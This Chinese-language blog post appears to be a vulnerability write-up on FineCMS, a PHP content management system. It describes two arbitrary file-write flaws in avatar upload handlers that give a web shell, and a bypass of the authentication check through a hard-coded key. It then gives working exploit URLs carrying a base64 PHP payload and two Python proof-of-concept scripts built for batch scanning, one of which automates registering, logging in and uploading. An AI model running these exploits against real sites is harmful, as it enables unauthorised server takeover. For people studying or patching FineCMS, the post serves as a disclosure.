



## 0x01 前言

就要被**，美其名曰：比我的web安全研究和代码审计更有前途。当然是选择原谅他啦。
先审计finecms去去火，找到六处漏洞，先放两处容易被发现的getshell和对应的两个python脚本

## 0x02 getshell

**第一处getshell**：在C:/phpStudy/WWW/finecms/dayrui/controllers/Api.php中的data2函数，大约在第115行，有问题的代码大约在178行

```
public function data2() {

    $data = array();

    // 安全码认证
    $auth = $this->input->get('auth', true);
    if ($auth != md5(SYS_KEY)) {
        // 授权认证码不正确
        $data = array('msg' => '授权认证码不正确', 'code' => 0);
    } else {
        // 解析数据
        $cache = '';
        $param = $this->input->get('param');
        if (isset($param['cache']) && $param['cache']) {
            $cache = md5(dr_array2string($param));
            $data = $this->get_cache_data($cache);
        }
        if (!$data) {

            if ($param == 'login') {
                // 登录认证
                $code = $this->member_model->login(
                    $this->input->get('username'),
                    $this->input->get('password'),
                    0, 1);
                if (is_array($code)) {
                    $data = array(
                        'msg' => 'ok',
                        'code' => 1,
                        'return' => $this->member_model->get_member($code['uid'])
                    );
                } elseif ($code == -1) {
                    $data = array('msg' => fc_lang('会员不存在'), 'code' => 0);
                } elseif ($code == -2) {
                    $data = array('msg' => fc_lang('密码不正确'), 'code' => 0);
                } elseif ($code == -3) {
                    $data = array('msg' => fc_lang('Ucenter注册失败'), 'code' => 0);
                } elseif ($code == -4) {
                    $data = array('msg' => fc_lang('Ucenter：会员名称不合法'), 'code' => 0);
                }
            } elseif ($param == 'update_avatar') {
                // 更新头像
                $uid = (int)$_REQUEST['uid'];
                $file = $_REQUEST['file'];
                //
                // 创建图片存储文件夹
                $dir = SYS_UPLOAD_PATH.'/member/'.$uid.'/';
                @dr_dir_delete($dir);
                if (!is_dir($dir)) {
                    dr_mkdirs($dir);
                }
                $file = str_replace(' ', '+', $file);
                if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                    $new_file = $dir.'0x0.'.$result[2];
                    if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                        $data = array(
                            'msg' => '目录权限不足或磁盘已满',
                            'code' => 0
                        );
                    }
```

其中，首先

```
$file = $_REQUEST['file'];
```

获取$file变量

```
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                        $new_file = $dir.'0x0.'.$result[2];
                        if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                            $data = array(
                                'msg' => '目录权限不足或磁盘已满',
                                'code' => 0
                            );
```

然后用preg_match函数进行正则匹配，因为$file变量可控，所以$result也是可控的，从而$new_file也是可控的，可以构造为php文件，然后

```
file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file))))
```

对$result[1]进行base64解码，然后写入$new_file文件中。显然，是可以任意写文件进行getshell的。所以，我们要让程序能够运行到这些代码，不能在之前就退出了。要经过

```
 $auth = $this->input->get('auth');
 if ($auth != md5(SYS_KEY))
```

SYS_KEY被系统硬编码为24b16fede9a67c9251d3e7c7161c83ac，在C:phpStudyWWWconfigsystem.php中有定义。直接md5加密一次即可绕过

所以最终的payload为

```
http://localhost:88/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+
```

无需登录，直接getshell,路径为http://localhost:88/uploadfile/member/0/0x0.php


**第二处getshell**：在文件C:/phpStudy/WWW/finecms/dayrui/controllers/member/Account.php中的upload函数

```php
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                $new_file = $dir.'0x0.'.$result[2];
                if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                    exit(dr_json(0, '目录权限不足或磁盘已满'));
                
```

注册会员，登录

```
访问：http://localhost:88/index.php?s=member&c=account&m=upload
POST：tx=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+
```




## 0x03 Python批量poc脚本

pocsuite和poc-T是两个成熟的poc框架，不过感觉核心代码是别人的，只写一些poc插件的话，就是为别人造轮子，所以抽了一些代码写了个自己的工具，可能连轻型框架都算不上，只够自己用的。
第一处getshell的python代码（因为是直接getshell，无需登录，所以很简单）：

```python
import sys
import requests
def poc(target):
    payload="/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+"
    url=target+payload
    shell=target+'/uploadfile/member/0/0x0.php'
    try:
        result=requests.get(url,timeout=3)
        verify=requests.get(shell,timeout=3)
        if verify.status_code==200 and 'code' in verify.text:
            return True
    except Exception,e:
        print e
```

第二处getshell的Python代码（需要自动化注册、登录、利用）：

```python
#Finecms version:5.0.8
#Author:404notfound

import random
import sys
import requests
def poc(url):
    username=random.randint(0,999999)
    seed = "1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    email = []
    for i in range(8):
        email.append(random.choice(seed))
    email = ''.join(email)
    #print email+"@"+email+".com"
    #print username
    
    #step 1 register
    #print "[+] register user"
    register_url=url+"/index.php?s=member&c=register&m=index"
    register_payload={"back":"","data[username]":username,"data[password]":"123456","data[password2]":"123456","data[email]":email+"@"+email+".com"}
    #step 2 login
    #print "[+] user login"
    login_url=url+"/index.php?s=member&c=login&m=index"
    login_payload={"back":"","data[username]":username,"data[password]":"123456","data[auto]":"1"}
    #step 3 attack
    #print "[+] loading payload"
    vul_url=url+"/index.php?s=member&c=account&m=upload"
    vul_payload={"tx":"data:image/php;base64,NDA0bm90Zm91bmQ8P3BocCBwaHBpbmZvKCk7Pz4="}
    try:
        s = requests.session()
        resu=s.post(register_url,data=register_payload)
        result=s.post(login_url,data=login_payload)
        result2=s.post(vul_url,data=vul_payload).content
        if "status" in result2:
            return True
        else:
            return False
    except Exception,e:
        pass
        #print e
    #print "[+] ALL DONE"
    #step 4 find shell path
       
#print poc("http://localhost")
```

主代码就不贴了，可以看我的GitHub：https://github.com/404notf0und
效果还不错：


